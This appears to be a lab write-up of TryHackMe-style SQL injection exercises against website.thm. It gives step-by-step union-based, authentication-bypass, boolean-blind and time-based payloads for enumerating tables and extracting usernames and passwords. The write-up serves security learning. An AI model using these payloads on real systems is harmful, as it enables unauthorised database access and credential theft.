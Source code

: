 # SQL Injection

> Shahrukh Tramboo | January 27th, 2022

--------------------------------------

**Union-Based SQL Injection (In-Band SQL Injection)**

Target;
https://website.thm/article?id=1

Task:
Get Martin's password

1.	The first thing we need to do is return data to the browser without displaying an error message.
Firstly we'll try the UNION operator so we can receive an extra result of our choosing.

```bash
1 UNION SELECT 1
```
This statement should produce an error message informing you that the UNION SELECT statement has a different number of columns than the original SELECT query.

2.	So let's try again but add another column:

```bash
1 UNION SELECT 1,2
```
3.	Same error again, so let's repeat by adding another column:

```bash
1 UNION SELECT 1,2,3
```
Success, the error message has gone, and the article is being displayed, but now we want to display our data instead of the article.

4.	To get around that, we need the first query to produce no results.

```bash
0 UNION SELECT 1,2,3
```

5.	We can start using these returned values to retrieve more useful information. First, we'll get the database name that we have access to:
```bash
0 UNION SELECT 1,2,database()
```

6.	Our next query will gather a list of tables that are in this database.
```bash
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

7.	As the first level aims to discover Martin's password, the staff_users table is what is of interest to us.
```bash
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

8.	We can use the username and password columns for our following query to retrieve the user's information.
```bash
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

**Blind SQLi**

A.	Authentication Bypass:
```bash
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

can be bypassed if we put password as
```bash
' OR 1=1;--
```
which will make query as
```bash
select * from users where username='' and password='' OR 1=1;
```

----------------------------------------

B.	Boolean Based:

Target:
https://website.thm/checkuser?username=admin

Task:
Get username and password

Target query:
```bash
select * from users where username = '%username%' LIMIT 1;
```

1.	Our first task is to establish the number of columns in the users table, which we can achieve by using the UNION statement. Change the username value to the following:
```bash
admin123' UNION SELECT 1;--
```
As the web application has responded with the value taken as false, we can confirm this is the incorrect value of columns. Keep on adding more columns until we have a taken value of true.

2.	You can confirm that the answer is three columns by setting the username to the below value:
```bash
admin123' UNION SELECT 1,2,3;-- 
```

3.	Now that our number of columns has been established, we can work on the enumeration of the database. Our first task is discovering the database name.
```bash
admin123' UNION SELECT 1,2,3 where database() like '%';--
```
We get a true response because, in the like operator, we just have the value of %, which will match anything

4.	We can cycle through all the letters, numbers and characters such as - and _ until we discover a match.

```bash
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--
```

5.	We've established the database name, which we can now use to enumerate table names using a similar method by utilising the information_schema database.

```bash
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

6.	You'll finally end up discovering a table in the sqli_three database named users, which you can be confirmed by running the following username payload:
```bash
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

7.	Lastly, we now need to enumerate the column names in the users table so we can properly search it for login credentials.
```bash
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

8.	Again you'll need to cycle through letters, numbers and characters until you find a match. As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name, so you don't keep discovering the same one.
```bash
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

9.	Repeating this process three times will enable you to discover the columns id, username and password. Which now you can use to query the users table for login credentials.
```bash
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```

10.	Which, once you've cycled through all the characters, you will confirm the existence of the username admin. Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:
```bash
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```
----------------------------------------------

C. Time Based:

The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 
```bash
admin123' UNION SELECT SLEEP(5);--
```
If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:

```bash
admin123' UNION SELECT SLEEP(5),2;--
```
This payload should have produced a 5-second time delay, which confirms the successful execution of the UNION statement and that there are two columns.

If you're struggling to find the table name the below query should help you on your way:
```bash
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```














